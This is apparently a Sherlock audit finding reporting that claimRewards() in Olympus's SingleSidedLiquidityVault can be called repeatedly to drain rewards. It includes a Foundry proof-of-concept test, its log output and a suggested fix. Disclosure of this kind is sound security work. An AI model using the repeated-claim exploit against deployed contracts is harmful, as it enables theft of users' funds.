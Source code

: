 modern_Alchemist_00

high

# [H] - claimRewards() can be called multiple times by the same person

## Summary
An attacker can easily drain the contract by calling the `claimRewards()` function multiple times. 

## Vulnerability Detail
The `claimRewards()` function does not check whether a person has already claimed their rewards. It only updates how much rewards each user claims using the mapping `userRewardDebts`
And because of this it's easy to call `claimRewards` multiple times and drain the contract.
Here's a small test to prove this:
```solidity
function testCorrectness_claimRewardsTwice() public {
        // Setup
        _withdrawTimeSetUp();
        console.log("TOTAL INTERNAL REWARDS",ldo.balanceOf(address(liquidityVault)));
        console.log("TOTAL EXTERNAL REWARDS",externalReward.balanceOf(address(liquidityVault)));

        // Claim rewards twice
        vm.prank(alice);
        liquidityVault.claimRewards();
        console.log("Internal Reward Token Balance of alice after 1st Claim",ldo.balanceOf(alice));
        console.log("External Reward Token Balance of alice after 1st Claim",externalReward.balanceOf(alice));

        vm.prank(alice);
        liquidityVault.claimRewards();
        console.log("Internal Reward Token Balance of alice after 2nd Claim",ldo.balanceOf(alice));
        console.log("External Reward Token Balance of alice after 2nd Claim",externalReward.balanceOf(alice));
    }
```
And here's the output after running the test:
```solidity
[PASS] testCorrectness_claimRewardsTwice() (gas: 981566)
Logs:
  TOTAL INTERNAL REWARDS 100000000000000000000000
  TOTAL EXTERNAL REWARDS 1000000000000000000
  Internal Reward Token Balance of alice after 1st Claim 9999999999999999982
  External Reward Token Balance of alice after 1st Claim 999999999999999976
  Internal Reward Token Balance of alice after 2nd Claim 19999999999999999954
  External Reward Token Balance of alice after 2nd Claim 2999999999999999928
```
## Impact
An attacker can drain the contract completely
## Code Snippet
- https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L288

## Tool used
Manual review, Foundry

## Recommendation
Recommend adding a state variable to track maximum amount a user can claim. 
Reduce the amount whenever a user claims and also add a check in `claimRewards` to see if it does not exceed that amount.
